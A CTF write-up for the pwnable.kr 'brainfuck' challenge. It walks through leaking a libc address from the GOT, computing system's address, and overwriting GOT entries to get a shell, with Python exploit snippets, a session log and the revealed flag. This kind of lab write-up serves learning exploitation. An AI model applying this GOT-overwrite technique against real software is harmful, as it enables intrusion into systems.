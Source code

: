 # Pwnable.kr - Brainfuck CTF Writeup

## Challenge Summary

* **Name**: brainfuck
* **Platform**: [pwnable.kr](http://pwnable.kr)
* **Category**: Exploitation / Pwn
* **Difficulty**: Medium

We’re given a custom Brainfuck interpreter binary that allows us to input brainfuck instructions, except `[` and `]`. Our goal is to get a shell.

---

## Analysis

The binary disables loops (`[` and `]`), limiting traditional brainfuck control flow. But we still have access to `,` (input), `.` (output), `<`, and `>` to manipulate the tape, and can abuse memory writes with `,`.

### Observations:

* There is a static tape pointer at address `0x0804a0a0`
* We can leak memory with `.`
* We can write arbitrary data with `,`
* GOT entries for functions like `fgets`, `memset`, `putchar` are writable

We use this to:

1. Leak a libc address (`fgets@GOT`)
2. Calculate the libc base
3. Overwrite a GOT entry with the address of `system`
4. Send `/bin/sh` and trigger a shell

---

## Exploit Strategy

### Step 1: Leak `fgets` address

```python
pl = move(tape, plt["fgets"])
pl += read(4)
pl += write(4)
```

This reads the 4-byte pointer from `fgets@GOT` and writes it back so we can read it with `.`, leaking the libc address.

### Step 2: Overwrite GOT entries

```python
pl += move(plt["fgets"], plt["memset"])
pl += write(4)
pl += move(plt["memset"], plt["putchar"])
pl += write(4)
pl += '.'  # trigger output
```

### Step 3: Parse libc leak and calculate `system`

```python
fgets = int.from_bytes(r.recvn(4), byteorder="little", signed=False)
libc_base = fgets - offset["fgets"]
gets = libc_base + offset["gets"]
system = libc_base + offset["system"]
```

We use pwntools' ELF parser to grab the offsets for `fgets`, `gets`, and `system`:

```python
libc = ELF("./bf_libc.so")
offset = {
    "fgets": libc.symbols[b"fgets"],
    "gets": libc.symbols[b"gets"],
    "system": libc.symbols[b"system"]
}
```

### Step 4: Send `/bin/sh` and overwrite memset with system

Then we send `/bin/sh` to tape, overwrite `memset@got` with `system`, and call it.

---

## Final Exploit Output

```
$ python3 brainfuck_exploit.py
[*] '/Users/flacco/CTFS/Brainfuck/bf_libc.so'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
[+] Opening connection to pwnable.kr on port 9001: Done
fgets: 0xf7d8f160
gets:  0xf7d903f0
system: 0xf7d6bdb0
[*] Switching to interactive mode
welcome to brainfuck testing system!!
type some brainfuck instructions except [ ]
$ whoami
brainfuck_pwn
$ ls -la
total 12
drwxr-xr-x 1 root          root          4096 Apr 27 13:35 .
drwxr-xr-x 1 root          root          4096 Jun  9 13:38 ..
drwxr-xr-x 1 brainfuck_pwn brainfuck_pwn 4096 May 19 04:07 brainfuck_pwn
$ cd brainfuck_pwn
$ ls
brainfuck
flag
super.pl
$ cat flag
bR41n_F4ck_Is_FuN_LanguaG3
```

---

## Takeaways

* This was a lot harder than the previous Blackjack Exploit, I did.
* Fortunately I had many resources to learn what exploit technique was needed
* for this CTF. I realized that my payload was not great and after seeing advanced payloads
* I improved my ability to write python payloads to automate the process fo finding offsetts
* and addresses. 

---

## Files

* `brainfuck_exploit.py` (main script)
* `bf_libc.so` (libc dump from remote)
